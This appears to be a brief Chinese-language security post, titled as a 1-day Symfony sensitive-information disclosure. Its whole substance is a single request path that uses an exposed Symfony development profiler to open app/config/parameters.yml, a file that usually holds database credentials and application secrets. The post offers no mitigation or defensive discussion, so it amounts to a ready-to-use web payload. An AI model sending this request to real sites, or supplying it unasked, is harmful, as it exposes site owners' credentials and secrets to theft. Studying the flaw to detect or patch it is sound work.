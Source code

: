 #  1day Symfony 敏感信息泄露   
 Khan安全团队   2024-05-11 00:24  
  
/app_dev.php/_profiler/open?file=app/config/parameters.yml  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV1ahc8mwbW3bBiaTIoxoC5BiadowTYP5RfoQ9iaJzHiaq420HRWmdMCrDnQxtVXuRcChjLXty0MhCjnEQ/640?wx_fmt=png&from=appmsg "")  
  
  
